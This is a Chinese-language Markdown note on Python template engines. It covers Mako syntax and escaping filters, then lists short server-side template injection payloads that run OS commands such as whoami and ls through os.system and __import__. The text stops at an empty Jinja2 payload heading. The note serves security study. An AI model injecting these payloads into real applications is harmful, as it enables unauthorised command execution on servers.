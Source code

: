 ## Python 模板引擎
### Mako
#### 基础语法
**变量取值：**
`${ }`：输入 `1+1`，`字符串`，`方法`，都会有执行结果
显示变量temp的值：`${temp}`
变量temp乘2：`${temp*2}`
变量temp的平方：`${pow(temp,2)}`
**转义符**

在定义变量时，如果其中包含特殊符号时记得要使用转义符转换。u负责转换URL地址，h转换HTML，x对XML进行转义，trim就是去空格啦。

```
url: ${"there is some text"}
url(with escaping): ${"there is some text" | u}
```
执行：
```
url: there is some text
url(with escaping): there+is+some+text##空格被解析为+号
html: ${"show <table>"}
html(with escaping): ${"show <table>" | h}
```
执行：
```
html: show <table>
html(with escaping): show &lt;table&gt;##<>被成功转义
```
**控制结构：**
```
%for ... : %endfor
%if ... : ... %elif: ... % else: ... %endif
Python 代码块：

<%%>
```
**导入模块：**
```
<%! %>
```
**定义函数：**
`<%def name="..." > ... </%def>`，调用：`${...()}`
**注释：**
`##（单行）、<%doc>（多行）`
**其他：**
继承模板：`<%inherit ... />`
包含模板：`<%include ... />`
引用：`<%page ... />`
`==`可以看到上面非常依赖 `%`，如果非要用到 `%`，需要写成 `%%==`
#### 常见Mako模板Payload
因为Mako模板下完全支持python代码的执行,可以直接注入python的攻击代码
```
<%!
import os
os.system("whoami")
%>
# 或者
<%__import__("os").system("ls")%>
# 或者
${__import__("os").system("whoami")}
```
### Jinja2
#### 常见JInja2模板Payload